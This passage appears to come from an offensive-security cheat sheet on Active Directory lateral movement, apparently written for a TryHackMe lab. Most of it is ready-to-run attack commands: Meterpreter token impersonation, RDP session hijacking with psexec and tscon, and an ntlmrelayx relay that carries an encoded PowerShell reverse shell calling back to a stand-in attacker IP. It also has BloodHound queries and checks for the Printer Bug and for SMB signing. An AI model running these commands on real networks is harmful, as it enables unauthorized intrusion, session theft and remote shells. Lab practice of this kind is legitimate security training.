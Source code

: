 ```bash
meterpreter> list_tokens -u
meterpreter> impersonate_token \\$DOMAIN\$USER_TO_IMPERSONATE
meterpreter> execute -f cmd.exe -i -t
```
{% endcode %}

## RDP session hijacking

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement
https://www.csoonline.com/article/3566917/rdp-hijacking-attacks-explained-and-how-to-mitigate-them.html
# NOTE: this does not work on Windows Server 2019 (and maybe on later versions neither)
# We need GUI connection and psexec to pass to SYSTEM
Psexec64.exe -s cmd.exe
#     Nex we will list the rdp session with 
query user
# If there is another user with an active RDP session, we can hijack it
tscon.exe $TARGET_ID /dest:$MY_SESSIONNAME
```
{% endcode %}

## Relay Attack

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.thehacker.recipes/a-d/movement/ntlm/relay
# The target is one (among) the servers w/o SMB Signing enforced / we relay an authentication request to another machine
# $TARGET_IP would be the external address facing the Internet
sudo ntlmrelayx.py --no-http-server -smb2support -t $TARGET_IP -c "powershell -enc JABjAGwAaQ..." # PS revshell
# Then on the target connect to our attacking machine using this syntax
//$ATTACKER_IP/$NON_EXISTENT_PATH
```
{% endcode %}

## Automated Relays

{% code overflow="wrap" fullWidth="true" %}
```powershell
# First we identify if a computer has admin privs over another computer with this custom query on Bloodhound
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p

# The Printer Bug -> what we need
1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.'
3. The target host must be running the Print Spooler service.
4. The hosts must not have SMB signing enforced.

# Print Spooler Service -> verify the service is running
PS C:\> GWMI Win32_Printer -Computer server.domain.com
# If access denied, try
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc
# If both are denied, take a leap of faith and assume the service is running

# SMB Signing -> confirm host does not have SMB signing enforced
nmap --script=smb2-security-mode -p445 server.domain.com # should see signing enabled but not required/enforced

# Exploiting Authentication Relays
```